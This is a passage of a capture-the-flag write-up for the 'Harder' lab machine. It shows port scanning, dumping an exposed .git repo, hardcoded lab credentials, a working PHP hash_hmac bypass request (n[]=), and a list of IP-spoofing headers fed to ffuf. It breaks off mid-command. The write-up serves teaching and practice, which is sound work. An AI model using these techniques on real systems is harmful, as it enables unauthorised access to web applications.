## TL;DR

Using cookie header we can find the domain `pwd.harder.local`, and there find git repo. We find credentials for login, and bypass security check using bug in the algorithm there, at `hmac.php`.

Next, we get command execution and find user flag.

We escalate to `ews` using credentials we find inside `/etc/periodic/15min/evs-backup.sh`.

Finally, we escalate to root using `/usr/local/bin/execute-crypted` and executing command we encrypted with `root@harder.local` public key.

### Recon

we start with `rustscan`, using this command:
```bash
┌──(agonen㉿kali)-[~/thm/Harder]                                                                                                                                                             
└─$ rustscan -a $target                                                                                                                                                                      
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.                                                                                                                                     
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |                                                                                                                                     
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |                                                                                                                                     
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'                                                                                                                                     
The Modern Day Port Scanner.                                                                                                                                                                 
________________________________________                                                                                                                                                     
: https://discord.gg/GFrQsGy           :                                                                                                                                                     
: https://github.com/RustScan/RustScan :                                                                                                                                                     
 --------------------------------------                                                                                                                                                      
Nmap? More like slowmap.🐢                                                                                                                                                                   
                                                                                                                                                                                             
[~] The config file is expected to be at "/home/agonen/.rustscan.toml"                                                                                                                       
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers                                                                          
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'.                                                   
Open 10.80.155.215:2                                                                                                                                                                         
Open 10.80.155.215:22                                                                                                                                                                        
Open 10.80.155.215:80                                                                                                                                                                        
[~] Starting Script(s)                                                                                                                                                                       
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")                                     

[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-25 00:12 IST                           
Initiating Ping Scan at 00:12                  
Scanning 10.80.155.215 [4 ports]               
Completed Ping Scan at 00:12, 0.57s elapsed (1 total hosts)                                   
Initiating SYN Stealth Scan at 00:12           
Scanning harder (10.80.155.215) [3 ports]                                                     
Discovered open port 80/tcp on 10.80.155.215                                                  
Discovered open port 2/tcp on 10.80.155.215                                                   
Discovered open port 22/tcp on 10.80.155.215                                                  
Completed SYN Stealth Scan at 00:12, 0.55s elapsed (3 total ports)                            
Nmap scan report for harder (10.80.155.215)                                                   
Host is up, received reset ttl 62 (0.53s latency).                                            
Scanned at 2025-11-25 00:12:14 IST for 1s                                                     

PORT   STATE SERVICE     REASON                
2/tcp  open  compressnet syn-ack ttl 62                                                       
22/tcp open  ssh         syn-ack ttl 61                                                       
80/tcp open  http        syn-ack ttl 61                                                       

Read data files from: /usr/share/nmap          
Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds                                   
           Raw packets sent: 7 (284B) | Rcvd: 4 (172B)
```



(here I used the command `rustscan -a $target -- -A`).
Okay, we can find port `2` and port `22` with ssh, and port `80` with `nginx` server.

```bash
PORT   STATE SERVICE REASON         VERSION                                                                                                                                                                       
2/tcp  open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                                                  
| ssh-hostkey:                                                                                                                                                                                                    
|   2048 f8:8c:1e:07:1d:f3:de:8a:01:f1:50:51:e4:e6:00:fe (RSA)                                                                                                                                                    
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDEFmFCa+IH2JigaT+Z8eV8W3N0cSDkslS33rwJ1tptuG0IvY5mvhC/bYiNO9vTigCiTgkHXKiFp0Kog0kiPPzihW3PU8HSpQHuSAH27vRsKR9mHY24rj7PA2mPxjObkD6PqS4Yq2YVK6BKV3RY+dYIIe0nbqFNyB/QiK7+EXXH
rQLnboMy35uXfM2vy02XJxDRlhd/lyepiMXWVdTo2LHgnjL8bl9oiRzIYEtYzXg7jQErNamPwes4fqokd4Di+ma5zmeCxYfu+75/E49gvQEwwUUWJNbjAokOe8XKUwZsJsoUcJAMqn/gk0HAVZ4rdHqziWTYIGSsNeTJHyX7vB3r                                      
|   256 e6:5d:ea:6c:83:86:20:de:f0:f0:3a:1e:5f:7d:47:b5 (ECDSA)                                                                                                                                                   
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJtXi31P1Ad+O7K71zZTGscq53c+5mUQTA/KxVNEc1Xm3I/7ubkunbVoR4MWt5v4SrYZnVB7iUbjXWiwmzRnwOw=                                                
|   256 e9:ef:d3:78:db:9c:47:20:7e:62:82:9d:8f:6f:45:6a (ED25519)                                                                                                                                                 
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKRvDffPpS8dq2oJcYvNPU2NzZtjbVppVt1wM8Y52P/i                                                                                                                                
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 8.3 (protocol 2.0)                                                                                                                                                    
| ssh-hostkey:                                                                                                                                                                                                    
|   4096 cf:e2:d9:27:d2:d9:f3:f7:8e:5d:d2:f9:9d:a4:fb:66 (RSA)                                                                                                                                                    
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQCns4FcsZGpefUl1pFm7KRPBXz7nIQ590yiEd6aNm6DEKKVQOUUT4TtSEpCaUhnDU/+XHFBJfXdm73tzEwCgN7fyxmXSCWDWu1tC1zui3CA/sr/g5k+Az0u1yTvoc3eUSByeGvVyShubpuCB5Mwa2YZJxiHu/WzFrtDbGIGiVcQ
gLJTXdXE+aK7hbsx6T9HMJpKEnneRvLY4WT6ZNjw8kfp6oHMFvz/lnDffyWMNxn9biQ/pSkZHOsBzLcAfAYXIp6710byAWGwuZL2/d6Yq1jyLY3bic6R7HGVWEX6VDcrxAeED8uNHF8kPqh46dFkyHekOOye6TnALXMZ/uo3GSvrJd1OWx2kZ1uPJWOl2bKj1aVKKsLgAsmrrRtG1K
WrZZDqpxm/iUerlJzAl3YdLxyqXnQXvcBNHR6nc4js+bJwTPleuCOUVvkS1QWkljSDzJ878AKBDBxVLcFI0vCiIyUm065lhgTiPf0+v4Et4IQ7PlAZLjQGlttKeaI54MZQPM53JPdVqASlVTChX7689Wm94//boX4/YlyWJ0EWz/a0yrwifFK/fHJWXYtQiQQI02gPzafIy7zI6bO3
N7CCkWdTbBPmX+zvw9QcjCxaq1T+L/v04oi0K1StQlCUTE12M4fMeO/HfAQYCRm6tfue2BlAriIomF++Bh4yO73z3YeNuQ==                                                                                                                  
|   256 1e:45:7b:0a:b5:aa:87:e6:1b:b1:b7:9f:5d:8f:85:70 (ED25519)                                                                                                                                                 
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB+INGLWU0nf9OkPJkFoW9Gx2tdNEjLVXHrtZg17ALjH                                                                                                                                
80/tcp open  http    syn-ack ttl 61 nginx 1.18.0                                                                                                                                                                  
|_http-server-header: nginx/1.18.0                                                                                                                                                                                
| http-methods:                                                                                                                                                                                                   
|_  Supported Methods: GET HEAD POST                                                                                                                         
|_http-title: Error                                                                                                                                          
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port                                                        
Device type: general purpose                                                                                                                                 
Running: Linux 4.X                                                                                                                                           
OS CPE: cpe:/o:linux:linux_kernel:4.15                                                                                                                       
OS details: Linux 4.15                                                                                                                                       
TCP/IP fingerprint:                                                                                                                                          
OS:SCAN(V=7.95%E=4%D=11/25%OT=2%CT=%CU=34100%PV=Y%DS=3%DC=T%G=N%TM=6924D91B                                                                                  
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(                                                                                  
OS:O1=M578ST11NW6%O2=M578ST11NW6%O3=M578NNT11NW6%O4=M578ST11NW6%O5=M578ST11                                                                                  
OS:NW6%O6=M578ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(                                                                                  
OS:R=Y%DF=Y%T=40%W=F507%O=M578NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS                                                                                  
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=                                                                                  
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=                                                                                  
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T                                                                                  
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=                                                                                  
OS:S)61                           
```

Let's add `harder` to our `/etc/hosts`

### Use header to find pwd.harder.local domain and dump git repo

When we visit the main page, we can see very interesting header.



This is Set-Cookie header. However, as you can see there is unknown domain here `pwd.harder.local`.

```bash
Set-Cookie: TestCookie=just+a+test+cookie; expires=Mon, 24-Nov-2025 23:43:45 GMT; Max-Age=3600; path=/; domain=pwd.harder.local; secure
```

Let's add it to our `/etc/hosts`.

Then, I visited `http://pwd.harder.local/` and find login portal.



We'll fuzz the root dir:



We find `.git` files, that's huge!

```bash
┌──(agonen㉿kali)-[~/thm/Harder]                                                                                                                             
└─$ ffuf -u "http://pwd.harder.local/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt                                                           
                                                                                                                                                             
        /'___\  /'___\           /'___\                                                                                                                      
       /\ \__/ /\ \__/  __  __  /\ \__/        
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\        
          \/_/    \/_/   \/___/    \/_/        

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://pwd.harder.local/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.git                    [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 555ms]
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 559ms]
.git/config             [Status: 200, Size: 92, Words: 9, Lines: 6, Duration: 561ms]
.git/logs/              [Status: 403, Size: 153, Words: 3, Lines: 8, Duration: 565ms]
.gitignore              [Status: 200, Size: 27, Words: 1, Lines: 3, Duration: 565ms]
.git/index              [Status: 200, Size: 361, Words: 3, Lines: 3, Duration: 568ms]
index.php               [Status: 200, Size: 19926, Words: 526, Lines: 24, Duration: 544ms]
```

We can use `git-dumper` from [https://github.com/arthaud/git-dumper](https://github.com/arthaud/git-dumper).

I set up the virtual environment, and ready to execute:

```bash
┌──(.venv)─(agonen㉿kali)-[~/thm/Harder/git-dumper]
└─$ python3 git_dumper.py http://pwd.harder.local/ ../git_dump
```



After dumping we have this folder
```bash
┌──(agonen㉿kali)-[~/thm/Harder/git_dump]
└─$ ls -la         
total 48
drwxrwxr-x 3 agonen agonen  4096 Nov 25 00:51 .
drwxrwxr-x 4 agonen agonen  4096 Nov 25 00:50 ..
-rw-rw-r-- 1 agonen agonen 23820 Nov 25 00:51 auth.php
drwxrwxr-x 7 agonen agonen  4096 Nov 25 00:51 .git
-rw-rw-r-- 1 agonen agonen    27 Nov 25 00:51 .gitignore
-rw-rw-r-- 1 agonen agonen   431 Nov 25 00:51 hmac.php
-rw-rw-r-- 1 agonen agonen   608 Nov 25 00:51 index.php
```



### Find credentials for login and bypass security check

I find the username and password:
```bash
┌──(agonen㉿kali)-[~/thm/Harder/git_dump]
└─$ head auth.php                                                                           
<?php
define('LOGIN_USER', "admin");
define('LOGIN_PASS', "admin");

define('LOGOUT_COMPLETE', "You've been successfully logged out.");
define('INCORRECT_USERNAME_PASSWORD', "Invalid login credentials!");
define('STARTER_GREETING', "Harder Corp. - Password Manager");
define('USERNAME', "Username");
define('PASSWORD', "Password");
define('ENTER_USERNAME', "Enter Username");
```



I logged in with these credentials:
```bash
admin:admin
```

However, we get this message:
```bash
extra security in place. our source code will be reviewed soon ...
```



We can find the file `hmac.php`:
```bash
┌──(agonen㉿kali)-[~/thm/Harder/git_dump]
└─$ cat hmac.php                                                          
<?php
if (empty($_GET['h']) || empty($_GET['host'])) {
   header('HTTP/1.0 400 Bad Request');
   print("missing get parameter");
   die();
}
require("secret.php"); //set $secret var
if (isset($_GET['n'])) {
   $secret = hash_hmac('sha256', $_GET['n'], $secret);
}

$hm = hash_hmac('sha256', $_GET['host'], $secret);
if ($hm !== $_GET['h']){
  header('HTTP/1.0 403 Forbidden');
  print("extra security check failed");
  die();
}
?>
```

We can bypass this check using this exploit [https://exploit-notes.hdks.org/exploit/web/php-hash_hmac_bypass/](https://exploit-notes.hdks.org/exploit/web/php-hash_hmac_bypass/).

The idea is, giving in `n` the value Array(), and then `$secret` will be false.

Then, in this line:
```php
$hm = hash_hmac('sha256', $_GET['host'], $secret);
```

It'll be:
```php
$hm = hash_hmac('sha256', $_GET['host'], false);
```

And we can calculate this. For example, the hostname will be `hostname`
```bash
┌──(agonen㉿kali)-[~/thm/Harder/git_dump]
└─$ php -a                
Interactive shell

php > echo hash_hmac('sha256', 'hostname', false);
9d7733c66afaff621d9102ee7694d7d32a7be00aefc41257645da23b3915501a
```




```bash
┌──(agonen㉿kali)-[~/thm/Harder]
└─$ php -a                                                      
Interactive shell

php > echo hash_hmac('sha256', 'a', false);
9615a95d4a336118c435b9cd54c5e8644ab956b573aa2926274a1280b6674713
```

Let's try this:
```bash
/index.php?n[]=&host=hostname&h=9d7733c66afaff621d9102ee7694d7d32a7be00aefc41257645da23b3915501a
```





Okay, let's add `shell.harder.local` to our `/etc/hosts` and trying to get the shell at:
```bash
http://shell.harder.local/
```
The credentials are:
```bash
evs:9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm
```


### Bypass IP checks and get reverse shell and user flag

I tried to login, but I got this message



Okay, we can try to get header to bypass IP check, using this list [https://gist.github.com/kaimi-/6b3c99538dce9e3d29ad647b325007c1](https://gist.github.com/kaimi-/6b3c99538dce9e3d29ad647b325007c1)

And raw list for brute forcing:
```bash
CACHE_INFO
CF_CONNECTING_IP
CF-Connecting-IP
CLIENT_IP
Client-IP
COMING_FROM
CONNECT_VIA_IP
FORWARD_FOR
FORWARD-FOR
FORWARDED_FOR_IP
FORWARDED_FOR
FORWARDED-FOR-IP
FORWARDED-FOR
FORWARDED
HTTP-CLIENT-IP
HTTP-FORWARDED-FOR-IP
HTTP-PC-REMOTE-ADDR
HTTP-PROXY-CONNECTION
HTTP-VIA
HTTP-X-FORWARDED-FOR-IP
HTTP-X-IMFORWARDS
HTTP-XROXY-CONNECTION
PC_REMOTE_ADDR
PRAGMA
PROXY_AUTHORIZATION
PROXY_CONNECTION
Proxy-Client-IP
PROXY
REMOTE_ADDR
Source-IP
True-Client-IP
Via
VIA
WL-Proxy-Client-IP
X_CLUSTER_CLIENT_IP
X_COMING_FROM
X_DELEGATE_REMOTE_HOST
X_FORWARDED_FOR_IP
X_FORWARDED_FOR
X_FORWARDED
X_IMFORWARDS
X_LOCKING
X_LOOKING
X_REAL_IP
X-Backend-Host
X-BlueCoat-Via
X-Cache-Info
X-Forward-For
X-Forwarded-By
X-Forwarded-For-Original
X-Forwarded-For
X-Forwarded-For
X-Forwarded-Server
X-Forwarded-Host
X-From-IP
X-From
X-Gateway-Host
X-Host
X-Ip
X-Original-Host
X-Original-IP
X-Original-Remote-Addr
X-Original-Url
X-Originally-Forwarded-For
X-Originating-IP
X-ProxyMesh-IP
X-ProxyUser-IP
X-Real-IP
X-Remote-Addr
X-Remote-IP
X-True-Client-IP
XONNECTION
XPROXY
XROXY_CONNECTION
Z-Forwarded-For
ZCACHE_CONTROL
```

Now, I used formatify burp suite extension, to get this `ffuf` request:



and then executing with `ffuf`, with minor modifications.

```bash
┌──(agonen㉿kali)-[~/thm/Harder]                                                                                                                                                                                                                                                                                           
└─$ ffuf -w ip_headers.txt \                                                                                                                                                                                                                                                                                               
  -u "http://shell.harder.local/index.php" \                                                                                                                                                                                                                                                                               
  -X GET \                                                                                                                                                                                                                                                                                                                 
  -H "FUZZ: 10.10.10.10" \                                                                                                                                                                                                                                                                                                 
  -H "Cookie: PHPSESSID=hpcigl1f9j7btj2m8ergaj3b91" \                                                                                                                                                                                                                                                                      
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" \                                                                                                                                                                                                                                           
  -H "Priority: u=0, i" \                                                                                                                                                                                                                                                                                                  
  -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0" \                                                                                                                                                                                                                                
  -H "Connection: keep-alive" \                                                                                                                                                                                                                                                                                            
  -H "Referer: http://shell.harder.local/" \                                                                                                                                                                                                                                                                               
  -H "Upgrade-Insecure-Requests: 1" \                                                                                                                                                                                                                                                                                      
  -H "Accept-Language: en-US,en;q=0.5" \                                                                                                                                                                                                                                                                                   
